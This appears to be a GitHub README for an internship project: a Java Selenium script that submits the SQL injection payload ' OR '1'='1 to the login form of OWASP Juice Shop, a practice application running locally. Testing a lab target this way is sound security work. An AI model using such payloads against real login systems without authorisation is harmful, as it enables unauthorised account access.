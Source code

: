 # Selenium SQL Injection Test for Juice Shop

## Overview

This project demonstrates an SQL Injection attack test on the Juice Shop web application using Selenium WebDriver with Firefox. The test script attempts to log in using an SQL injection payload to check the vulnerability of the application.

## Assumptions

1. **Juice Shop Setup**: The Juice Shop application is running locally at `http://localhost:3000/`.
2. **Browser**: Mozilla Firefox is installed on the system.
3. **GeckoDriver**: GeckoDriver is installed and its path is correctly set in the script (`D:/internship_java/geckodriver.exe`).

## Approach

1. **Setup**: Initialize the WebDriver and configure it to use Firefox.
2. **Navigate to Login Page**: Open the Juice Shop login page.
3. **SQL Injection Payload**: Use a malicious username (`' OR '1'='1`) to attempt an SQL injection attack.
4. **Submit Form**: Enter the payload in the username field, provide a valid password, and submit the form.
5. **Analyze Response**: Check the response to determine if the SQL injection succeeded.
6. **Exception Handling**: Handle any potential exceptions that may occur during the test execution.

## Test Execution Steps

1. **Initialize WebDriver**: 
   - Set the path for GeckoDriver.
   - Configure Firefox options.

2. **Navigate to Juice Shop**:
   - Open `http://localhost:3000/`.
   - Ensure the page loads by checking the title contains "Juice Shop".

3. **Perform SQL Injection**:
   - Locate the username and password fields.
   - Enter the SQL injection payload in the username field and a valid password.
   - Submit the login form.

4. **Analyze Response**:
   - Check if the response contains "Invalid username or password" or "Welcome" to determine if the SQL injection was successful.

5. **Exception Handling**:
   - Use `try-catch` blocks to handle exceptions such as `NoSuchElementException` or `TimeoutException`.
   - Log exceptions for debugging purposes.

## Code

```java
import org.openqa.selenium.By;
import org.openqa.selenium.WebDriver;
import org.openqa.selenium.WebElement;
import org.openqa.selenium.firefox.FirefoxDriver;
import org.openqa.selenium.firefox.FirefoxOptions;
import org.openqa.selenium.support.ui.ExpectedConditions;
import org.openqa.selenium.support.ui.WebDriverWait;

import java.util.concurrent.TimeUnit;

public class JuiceShopSQLiTest {

    public static void main(String[] args) {
        // Set the path for the GeckoDriver
        System.setProperty("webdriver.gecko.driver", "D:/internship_java/geckodriver.exe");

        // Initialize WebDriver
        FirefoxOptions options = new FirefoxOptions();
        WebDriver driver = new FirefoxDriver(options);

        try {
            // Navigate to the login page
            String localLoginPageUrl = "http://localhost:3000";
            driver.get(localLoginPageUrl);

            // Locate the username and password input fields
            WebElement usernameField = driver.findElement(By.name("username"));
            WebElement passwordField = driver.findElement(By.name("password"));

            // Construct the SQL injection payload
            String maliciousUsername = "' OR '1'='1";
            String validPassword = "password"; // Replace with an actual valid password

            // Enter the malicious username and password
            usernameField.sendKeys(maliciousUsername);
            passwordField.sendKeys(validPassword);

            // Submit the form
            WebElement loginButton = driver.findElement(By.cssSelector("input[type='submit']"));
            loginButton.click();

            // Wait for the response
            driver.manage().timeouts().implicitlyWait(5, TimeUnit.SECONDS);

            // Analyze the response
            WebElement body = driver.findElement(By.tagName("body"));
            String bodyText = body.getText();

            if (bodyText.contains("Invalid username or password")) {
                System.out.println("SQL Injection attempt failed.");
            } else if (bodyText.contains("Welcome")) {
                System.out.println("SQL Injection attempt succeeded.");
            } else {
                System.out.println("Unexpected response.");
            }

            // Now navigate to the Juice Shop website
            String juiceShopUrl = "http://localhost:3000/";
            System.out.println("Navigating to: " + juiceShopUrl);
            driver.get(juiceShopUrl);

            // Wait for the page to load completely
            WebDriverWait wait = new WebDriverWait(driver, 15);  // Increased timeout
            wait.until(ExpectedConditions.titleContains("Juice Shop"));

            // Find the login button and attempt to click it
            WebElement juiceShopLoginButton = driver.findElement(By.id("loginButton"));

            // Wait for the overlay to become invisible or clickable
            wait.until(ExpectedConditions.invisibilityOfElementLocated(By.id("mat-dialog-0")));

            // Click on the login button
            juiceShopLoginButton.click();

            // Perform further actions after successful login click
            // For example, enter username, password, and submit the form

        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            // Close the browser
            driver.quit();
        }
    }
}
```

## Exception Handling

- **TimeoutException**: Handled by increasing the wait time to allow the page to load.
- **NoSuchElementException**: Handled by verifying the element locators and ensuring the application is correctly loaded.
- **General Exceptions**: Caught using a generic `catch` block to log any unexpected errors during test execution.

## Conclusion

This test script demonstrates an automated approach to testing for SQL injection vulnerabilities using Selenium WebDriver. Ensure the Juice Shop application is running and accessible, and that GeckoDriver and Firefox are correctly installed and configured on your system.